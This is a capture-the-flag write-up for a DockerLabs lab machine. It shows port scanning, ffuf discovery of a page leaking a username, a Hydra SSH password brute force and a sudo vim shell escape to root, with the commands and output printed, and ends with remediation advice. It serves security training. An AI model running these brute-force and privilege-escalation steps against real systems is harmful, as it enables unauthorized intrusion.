






# Trust — DockerLabs Writeup

**Platform:** DockerLabs | **Difficulty:** Very Easy | **Target IP:** 172.17.0.2 | **Attacker IP:** 172.17.0.1

## Machine info


## Summary

**Trust** is a Very Easy DockerLabs machine centered on weak SSH authentication and a sudo misconfiguration. Content discovery revealed a hidden `secret.php` page that leaked a username hint. That username was brute-forced over SSH with a common wordlist, yielding valid credentials. Once authenticated, `sudo -l` showed the user could run `vim` as root — a well-known GTFOBins vector that drops straight into a root shell.

**Attack chain:** Port Scanning → Content Discovery (ffuf) → Information Disclosure → SSH Credential Brute Force (Hydra) → Sudo Misconfiguration (`vim`) → Root

## 1. Reconnaissance

Confirmed connectivity to the target:



Full port scan with `nmap`:

```
nmap -p- -sS -sC -sV -vvv --open -oN scan.txt 172.17.0.2

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.2p1 Debian 2+deb12u10 (protocol 2.0)
80/tcp open  http    syn-ack ttl 64 PHP cli server 5.5 or later
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Apache2 Debian Default Page: It works
```

Two ports open: SSH (22) and HTTP (80), the latter showing the stock Apache2 Debian default page:



## 2. Web Enumeration

Content discovery with `ffuf`:

```
ffuf -c -u http://172.17.0.2/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e .php,.js,html,.sh,.txt -ac

secret.php              [Status: 200, Size: 927, Words: 328, Lines: 40, Duration: 2ms]
```

A hidden `secret.php` page was found.

## 3. Information Disclosure

Visiting `secret.php` reveals a personalized greeting:



The page addresses "Mario" by name — a strong hint that `mario` is a valid system/SSH username, worth testing directly.

## 4. SSH Credential Brute Force

Brute-forced the `mario` account over SSH with `hydra` and `rockyou.txt`:

```
hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2

[22][ssh] host: 172.17.0.2   login: mario   password: chocolate
1 of 1 target successfully completed, 1 valid password found
```

Credentials recovered: `mario:chocolate`.

## 5. Gaining Access

Logged in over SSH with the recovered credentials:



## 6. Privilege Escalation

Checked sudo permissions for `mario`:

```
sudo -l

User mario may run the following commands on 614d7e7ef11e:
    (ALL) /usr/bin/vim
```



`mario` can run `vim` as any user via `sudo`, with no command restrictions. `vim` is a well-known GTFOBins privilege escalation vector: it can drop into a shell from within the editor, which inherits the privileges `sudo` was invoked with. Exploited it as follows:

```
sudo /usr/bin/vim
```

Inside vim, entered command mode and spawned a shell:

```
:shell
```



```
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
```

Root confirmed.

## Root Cause & Remediation

| Issue | Fix |
|---|---|
| `secret.php` discloses a valid username in its output | Remove debug/test pages from production, or ensure they reveal no identifying information |
| Weak SSH password (`chocolate`), reachable without rate limiting or lockout | Enforce a strong password policy, disable password auth in favor of SSH keys, and add fail2ban or similar rate limiting |
| `mario` has unrestricted `sudo` access to `vim` | Remove the sudo entry, or restrict it to specific files/arguments and disable shell-escape features (e.g. via `restricted mode` / `rvim`) |
